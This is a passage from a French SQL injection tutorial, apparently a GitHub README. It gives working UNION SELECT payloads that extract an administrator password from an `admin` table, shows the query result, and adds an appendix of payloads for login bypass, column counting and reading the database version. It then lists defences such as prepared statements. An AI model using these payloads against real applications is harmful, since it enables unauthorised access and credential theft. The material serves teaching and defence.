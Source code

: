 Les colonnes de la table `admin` sont `id`, `nom_utilisateur`, `motdepasse`, `email`, etc.

## 2.6. Obtenir le mot de passe de l'administrateur

**Commande :**
```sql
' OR 1=1 UNION SELECT 0, motdepasse, 2 FROM `admin` ORDER BY id; #
```

**Explication :**
- **Contexte:** Accéder aux informations d'identification sensibles.
- **Objectif:** Obtenir le mot de passe de l'administrateur de la table `admin`.
- **Fonctionnement:** Utilisation de `UNION SELECT` pour extraire la colonne `motdepasse`.

**Exemple :**
Requête de base :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1;
```

Injection :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1 OR 1=1 UNION SELECT 0, motdepasse, 2 FROM `admin` ORDER BY id;
```

Résultat :
| id | titre          | contenu  |
|----|----------------|----------|
| 0  | Motdepasse123  | 2        |

Le mot de passe de l'administrateur est `Motdepasse123`.

## Sécurité et Prévention

L'injection SQL est une menace sérieuse pour la sécurité des applications web. Voici quelques bonnes pratiques pour protéger vos applications contre ce type d'attaques :

1. **Utiliser des requêtes préparées (paramétrées)** : Les requêtes préparées assurent que les entrées de l'utilisateur ne peuvent pas altérer la structure des requêtes SQL.
2. **Valider et nettoyer les entrées de l'utilisateur** : Assurez-vous que toutes les entrées de l'utilisateur sont correctement validées et nettoyées avant d'être utilisées dans des requêtes SQL.
3. **Limiter les privilèges de la base de données** : Utilisez des comptes de base de données avec des privilèges limités pour les opérations spécifiques, et évitez d'utiliser des comptes avec des droits d'administrateur pour des tâches régulières.
4. **Utiliser des outils de détection d'injections SQL** : Mettez en place des outils de détection et de prévention des intrusions pour identifier et bloquer les tentatives d'injection SQL.

# Annexe 1  :
```sql
Injection SQL :

' OR 1=1 #


Obtenir le nombre de colonnes :

' OR 1=1 order by x # (avec x=1,2,3, etc jusqu'à l'impossibilité de se connecter qui donnera le nbre de colonnes)


Obtenir la version de la base de données :

' OR 1=1 union select 0,@@version,2 order by id; #

```